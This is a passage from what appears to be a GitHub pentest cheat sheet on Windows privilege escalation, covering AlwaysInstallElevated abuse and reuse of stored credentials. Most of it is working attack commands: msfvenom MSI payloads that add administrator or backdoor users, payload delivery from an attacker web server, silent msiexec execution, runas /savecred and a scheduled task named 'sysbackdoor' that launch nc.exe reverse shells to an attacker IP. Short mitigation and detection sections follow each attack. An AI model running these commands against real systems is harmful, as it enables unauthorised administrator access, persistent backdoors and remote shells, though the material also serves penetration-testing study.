Both keys must return AlwaysInstallElevated REG_DWORD 0x1 for the system to be vulnerable.
<img width="1061" height="261" alt="image" src="https://github.com/user-attachments/assets/3fad82f8-9c74-4d4d-9290-96e62ce68605" />

✅ Check via Enumeration Tools
Use winPEASany.exe on the target system to automatically enumerate this setting:

powershell

    .\winPEASany.exe all
Look under "Registry - AlwaysInstallElevated" section for any findings.
<img width="1041" height="119" alt="image" src="https://github.com/user-attachments/assets/eb4d5020-8458-41c9-985b-ab6cd9a2f5d1" />

✅ Remote PowerShell Shell Check (Optional)
If you have a reverse shell on the target, verify with:

powershell

    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
Or automate using PowerShell:

powershell

    Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
    Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
💥 Exploitation
Once confirmed vulnerable, you can exploit the system by creating and executing a malicious .msi payload.

🔧 Step 1: Generate a Malicious MSI File
Option 1: Add User to Administrators Group
bash

    msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi -o adduser.msi
Replace USERNAME with the low-privileged user account you want to escalate.

Option 2: Create a Backdoor User
bash

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi
🌐 Step 2: Deliver Payload to Target
Option A: Host on Attacker Machine (Kali)
bash

    python3 -m http.server 8999
Option B: Direct Upload (if you have shell access)
powershell

    upload adduser.msi
Victim-side Download:
powershell

    Invoke-WebRequest -Uri "http://<Attacker-IP>:8999/adduser.msi" -OutFile "adduser.msi"
🚀 Step 3: Execute with SYSTEM Privileges
powershell

    msiexec /quiet /qn /i adduser.msi
/quiet /qn: Ensures the installation is completely silent (no GUI or prompts).

/i: Installs the specified MSI file.

🔎 Post-Exploitation: Verify Success
Confirm that the privilege escalation worked by checking group membership:

powershell
net localgroup administrators
You should now see the new or escalated user added to the Administrators group.
<img width="1062" height="586" alt="image" src="https://github.com/user-attachments/assets/b1865faf-8580-4771-bd50-5ef0742083f8" />

📘 Summary
Step	Description
1. Detect	Query registry or use winPEASany.exe to confirm both HKCU and HKLM values set to 1.
2. Create Payload	Use msfvenom to generate a .msi that adds a user or runs arbitrary commands.
3. Deliver Payload	Host on HTTP server or upload directly.
4. Execute with msiexec	msiexec /quiet /qn /i payload.msi runs it as SYSTEM.
5. Verify	Use net localgroup administrators to confirm elevated privileges.

🔐 Mitigation
Admins should ensure AlwaysInstallElevated is not enabled on both user and machine levels unless explicitly required (which is rare in modern environments).

To disable:

bash
     
     reg delete HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f
     reg delete HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

Windows allows users to store credentials in the system using Credential Manager or via commands like runas /savecred. These credentials are saved in a user-specific vault and may be reused by any user with access to the same session. If the /savecred option was used earlier or credentials were saved via GUI, they can be leveraged to execute commands under higher-privileged contexts without re-entering passwords.

🔍 Step 1: Enumerate Stored Credentials
Use the built-in cmdkey.exe utility to view stored credentials:

cmd

    cmdkey /list
🔎 Sample Output:

    yaml
    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator
✅ This shows that the user PWNED\Administrator has saved credentials available for use.

🚀 Step 2: Execute Commands Using Saved Credentials
Use runas with the /savecred flag to reuse stored credentials without retyping the password:

cmd

    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <port> -e cmd.exe"
💡 runas spawns the command as the specified user. If /savecred is used and credentials were saved earlier, the prompt is skipped.

🧠 Note:

/savecred does not store credentials — it reuses previously saved ones.

You must provide full absolute paths for commands.

💥 Real-World Exploitation Example
User Administrator has previously saved credentials.

You run:

cmd

    runas /user:Administrator /savecred "C:\Windows\System32\cmd.exe"
You now have a shell running as Administrator, no password required.

🔁 Alternatives & Enhancements
✅ Use PsExec (if credentials were saved elsewhere or token is available):
cmd

    psexec.exe -u PWNED\Administrator -p <known-password> cmd.exe
Or combine with hashes if using Pass-the-Hash scenarios.

✅ Use PowerShell to Elevate:
powershell

    Start-Process "cmd.exe" -Credential (New-Object System.Management.Automation.PSCredential("PWNED\Administrator",(ConvertTo-SecureString "Dummy" -AsPlainText -Force)))
⚠️ Only works if plaintext password is known. Doesn’t support /savecred.

✅ Use Task Scheduler for Persistent Elevation:
cmd

    schtasks /create /tn "sysbackdoor" /tr "cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> 4444 -e cmd.exe" /sc once /st 00:00 /ru "PWNED\Administrator" /RL HIGHEST /F
Leverages stored creds if previously authenticated with this account.

🛡️ Detection & Defense
Defense	Description
🔍 Monitor cmdkey.exe usage	Unusual calls can indicate enumeration
📊 Detect runas /savecred usage	Enable command-line logging (e.g., Sysmon Event ID 1)
🔒 Limit use of /savecred	Enforce GPO to block its usage
🔐 Clear saved credentials	Use cmdkey /delete:<target> to remove saved entries
👁️ Monitor for runas.exe and scheduled task abuse	High-privilege task execution by low-privileged users is a red flag

🧹 Optional Cleanup
Clear stored credentials after use:

cmd

    cmdkey /delete:Domain:interactive=PWNED\Administrator
This deletes the saved credential and prevents re-use by attackers.

✅ Summary Cheat Sheet
Task	Command
View stored creds	cmdkey /list
Run with saved creds	runas /user:<user> /savecred "<command>"
Clear saved creds	cmdkey /delete:<target>
Elevate via PsExec	psexec -u <user> -p <password> cmd.exe
Schedule task w/ creds	schtasks /create ... /ru <user>

   </details>
